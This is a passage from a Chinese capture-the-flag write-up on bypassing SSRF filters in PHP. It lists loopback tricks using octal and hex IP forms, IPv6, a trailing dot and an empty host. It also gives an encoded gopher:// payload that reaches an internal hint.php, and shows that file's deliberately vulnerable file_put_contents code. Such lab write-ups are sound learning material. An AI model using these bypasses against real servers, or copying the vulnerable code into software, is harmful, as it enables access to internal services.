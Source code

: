 - ip进制绕过

  - 本来以为`ip2long`是可以防御这种方法的，后来才发现根本不行…和127.1一样会返回`false`
  - 和127.1类似，也是存在不能用http的问题，但是`gethostbyname`并不会有影响，所以这题是可以使用的，比如:

  ```
  ?url=gopher://0177.0.0x0001:80/_%2547%2545%2554%2520%252f%2568%2569%256e%2574%252e%2570%2568%2570%2520%2548%2554%2554%2550%252f%2531%252e%2531%250d%250a%2548%256f%2573%2574%253a%2520%2531%2532%2537%252e%2530%252e%2530%252e%2531%250d%250a%2555%2573%2565%2572%252d%2541%2567%2565%256e%2574%253a%2520%2563%2575%2572%256c%252f%2537%252e%2536%2535%252e%2533%250d%250a%2541%2563%2563%2565%2570%2574%253a%2520%252a%252f%252a%250d%250a%250d%250a
  ```

- `http://127.0.0.1./hint.php`

  - curl不支持这种写法，猝…

- ipv6

  - 支持ipv6的话可以使用，buu上是不行的

```
http://[::1]/ >>> http://127.0.0.1/
http://[::]/  >>>  http://0.0.0.0/
```

- ```
  http:///127.0.0.1/hint.php
  ```

  - 这个trick也非常有意思，之前一直以为只有浏览器才会解析这样host为空的畸形url，结果翻p牛小密圈旧帖的时候发现Li4n0师傅提到curl和git也会按照浏览器的方式解析，测试以下发现直接用curl会卡在那，但是php的libcurl就可以…
  - 用`parse_url`解析这样的畸形url会返回`false`，然后`$hostname=$url_parse['host'];`会返回`null`（神奇的php)。
  - 接着又是一个windows和linux下php的差异，windows下`gethostbyname(null);`会返回本机ip，导致后面无法绕过ip检测。然而linux下并没有这样的特性，`gethostbyname`会返回`null`，绕过ip检测
  - 另一个大佬博客[kar3az](https://www.cnblogs.com/karsa/p/14123995.html)写过另一种绕过`http://[0:0:0:0:0:ffff:127.0.0.1]//hint.php`

感觉写的有点乱…总结一下buu上环境能用的有：

- `http://0.0.0.0/hint.php`
- gopher+进制转换

```
?url=gopher://0177.0.0x0001:80/_%2547%2545%2554%2520%252f%2568%2569%256e%2574%252e%2570%2568%2570%2520%2548%2554%2554%2550%252f%2531%252e%2531%250d%250a%2548%256f%2573%2574%253a%2520%2531%2532%2537%252e%2530%252e%2530%252e%2531%250d%250a%2555%2573%2565%2572%252d%2541%2567%2565%256e%2574%253a%2520%2563%2575%2572%256c%252f%2537%252e%2536%2535%252e%2533%250d%250a%2541%2563%2563%2565%2570%2574%253a%2520%252a%252f%252a%250d%250a%250d%250a
```

- `http:///127.0.0.1/hint.php`

绕过查看`hint.php`文件内容后

```php
<?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
```
